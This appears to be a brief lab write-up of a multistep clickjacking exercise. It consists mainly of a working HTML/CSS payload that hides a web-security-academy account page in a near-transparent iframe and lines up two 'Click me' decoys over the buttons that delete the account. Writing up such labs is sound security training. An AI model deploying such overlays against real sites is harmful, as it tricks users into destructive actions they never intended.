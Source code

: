 ![picture 5](/assets/images/bf4b5bf1de70e71654c18f04bb6b923a96e693b1d07ca9030919a4a001ddab32.png)  

Because of the SOP, there we are limited what to do. Basically we display both `CLick me` buttons at once and the right places, so first click and second click align with buttons in an iframe that lead to account deletion.

```html
<style>
    iframe {
        position:relative;
        width:780px;
        height: 600px;
        opacity: 0.00001;
        z-index: 2;
    }
    #div1, #div2 {
        position:absolute;
        top:492px;
        left:70px;
        z-index: 1;
    }
     #div2 {
    top: 292px;
    left: 207px;
}
     
</style>

<div id="div1">Click me first</div>
<div id="div2">Click me next</div>
<iframe id ="iframe" 
src="https://0a1e001a038a370a805fc16900b7002e.web-security-academy.net/my-account"></iframe>
```